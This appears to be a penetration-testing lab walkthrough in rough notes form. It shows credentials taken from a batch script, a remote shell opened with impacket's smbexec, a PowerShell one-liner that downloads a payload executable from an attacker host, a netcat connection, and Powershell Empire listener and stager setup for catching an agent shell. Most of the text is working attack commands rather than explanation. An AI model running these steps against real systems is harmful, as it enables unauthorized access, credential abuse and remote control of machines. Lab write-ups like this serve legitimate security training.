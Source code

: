 ```powershell

172.16.80.100:4983 or nc 172.16.80.100 4983
@echo off  net use "\\10.100.11.150\C$" /user:local_admin P@ssw0rd123  if exist "\\10.100.11.150\C$\Program_Files\MSBuild\ErrorLog.txt" (      echo "Copying errors..."      copy "\\10.100.11.150\C$\Program_Files\MSBuild\ErrorLog.txt" C:\Users\local_admin\Logs\Host1\      del "\\10.100.11.150\C$\Program_Files\MSBuild\ErrorLog.txt" ) else (      echo "No errors!" )  net use "\\10.100.11.150\C$" /delete

```

- we discovered a new ip and credentials

```
10.100.11.150
local_admin:P@ssw0rd123
```

> now that we have credentials, lets smbexec into it

```powershell
john㉿kali)-[/opt/impacket/examples]
└─$ sudo python3 smbexec.py 'local_admin:P@ssw0rd123'@172.16.80.100 

	ipconfig
	echo %userdomain%

```

```powershell
powershell -c iex (New-Object Net.WebClient).DownloadFile('http://10.100.11.101:8000/payload2.exe', 'C:\Windows\Temp\payload.exe')
```

- after some time configuring Empire

```powershell
sudo powershell-empire server
sudo powershell-empire client
```

### in Empire:
listeners
uselistener http
info
set Host <kali ip>
execute
main

usestager multi/launcher
set listener http
execute

copy the payload and execute into the first shell from smbexec
// we should get a shell back from Empire = they call this agent

agents
interact <agent number>
// its the same as session -i <number> from Metasploit
